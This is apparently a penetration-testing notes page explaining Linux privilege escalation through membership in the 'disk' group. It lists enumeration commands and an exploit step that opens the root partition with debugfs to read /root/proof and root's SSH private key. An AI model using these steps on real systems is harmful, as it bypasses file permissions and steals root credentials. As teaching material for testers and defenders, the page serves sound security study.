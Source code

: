 # Disk group

The disk group gives the user full access to any block devices contained within /dev/. Since /dev/sda1 will in general be the global file-system, and the disk group will have full read-write privileges to this device

**Check permissions of current user:**

```sh
id
```

* 6(disk)

**List /dev devices owner and group owner:**

```sh
ls -l /dev
```

**Find the partitions owned by disk group:**

```shell
find /dev -group disk
```

**Display the available partitions:**

```sh
df -h
```

### Exploit

use debugfs to enumerate the entire disk with effectively root level privilege:

```
debugfs /dev/sda2
```

* _<mark style="color:blue;">/dev/sda2 is mounted on /</mark>_
* `cat /root/proof`
* `cat root/.ssh/id_rsa`
